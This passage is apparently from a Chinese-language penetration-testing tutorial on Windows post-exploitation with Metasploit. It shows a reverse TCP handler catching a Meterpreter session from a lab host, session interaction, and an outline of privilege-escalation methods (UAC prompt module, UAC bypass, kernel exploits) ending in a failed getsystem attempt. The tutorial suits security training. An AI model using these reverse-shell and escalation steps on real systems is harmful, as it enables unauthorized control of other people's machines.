 ```
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.2.131:4444 
[*] Sending stage (201283 bytes) to 192.168.2.138
[*] Meterpreter session 3 opened (192.168.2.131:4444 -> 192.168.2.138:49171) at 2020-09-18 14:43:04 +0800

meterpreter > background 
[*] Backgrounding session 3...
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  3         meterpreter x64/windows  admin-PC\admin @ ADMIN-PC  192.168.2.131:4444 -> 192.168.2.138:49171 (192.168.2.138)

msf5 exploit(multi/handler) > 

```

输入shell，进入会话，

```
msf5 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: admin-PC\admin
meterpreter > 
```

这里权限是管理员权限。添加用户等操作就不能正常执行。

ps：乱码输入`chcp 65001`解决。

所以我们需要进行权限提升。

## 后渗透之权限提升

* 提高程序运行级别
* UAC绕过
* 利用提权漏洞进行提权

#### 提高程序运行级别

以高权限重启一个反弹时`shellcode` ，会弹出UAC弹框。

msf模块： `exploit/windows/local/ask`

接着前面的进行擦欧总，如果直接输入`getsystem` 会报错。(权限不够)

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
```
